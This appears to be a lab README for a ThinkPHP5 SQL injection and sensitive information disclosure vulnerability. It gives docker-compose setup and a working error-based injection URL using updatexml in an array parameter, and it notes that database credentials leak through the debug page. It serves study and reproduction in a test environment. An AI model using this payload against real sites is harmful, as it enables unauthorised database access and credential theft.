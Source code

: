 # ThinkPHP5 SQL Injection Vulnerability && Sensitive Information Disclosure Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

## Rationale

Details to read the references：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xz.aliyun.com/t/125

## Environment Setup

Enter the following command:

```
docker-compose up -d
```

Visiting `http://your-ip/index.php?ids[]=1&ids[]=2`, you'll see the username is displayed, indicating that the environment is running successfully.

## Exploit

Open the page `http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，you will find messages revealed successfully：

![](01.png)

And you can find the account and password of the database through the debug page.

![](02.png)

This is another sensitive information disclosure vulnerability.
